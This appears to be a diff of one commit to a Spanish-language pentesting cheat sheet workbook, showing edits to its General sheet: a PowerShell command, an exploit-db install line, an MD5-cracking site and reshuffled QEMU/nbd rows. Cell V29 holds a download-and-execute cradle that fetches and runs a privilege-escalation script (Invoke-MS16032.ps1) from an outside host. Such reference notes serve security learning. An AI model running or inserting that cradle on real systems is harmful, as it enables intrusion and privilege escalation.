

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-V29: C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe\ iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-MS16032.ps1')"
+V29: C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe\iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-MS16032.ps1')"
-B30: (empty)
+B30: apt install exploitdb-papers
-C30: (empty)
+C30: Para instalar el repositorio de articulos de exploit-db
-B31: (empty)
+B31: https://www.md5online.org/md5-decrypt.html
-C31: (empty)
+C31: Para desencriptar hashes MD5 Muy bueno
-B32: QEMU
+B32: (empty)
-B32:D32 merged
-B33: Comando
+B33: (empty)
-C33: Descripcion
+C33: (empty)
-D33: Anotaciones
+D33: (empty)
-B34: rmmod nbd
+B34: QEMU
+B34:D34 merged
-C34: Nos carga el modulo de Kernel nbd, Es un modulo de Kernel de linux que trata el almacenamiento de un host remoto como si fuera un bloque
+C34: (empty)
-D34: nbd esta integrado en las librerias de discos virtuales vhd
+D34: (empty)
-B35: modprobe nbd
+B35: Comando
-C35: Si no funciona poner nhd max_part=16
+C35: Descripcion
-D35: Para poder cargar rmod nbd por si nos da error al cargarlo
+D35: Anotaciones
```
Also changed, not shown: 39 added rows, 25 removed rows, 122 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, sheet Interceptadores & Web, sheet Inyecciones, cell formats, charts or pictures.
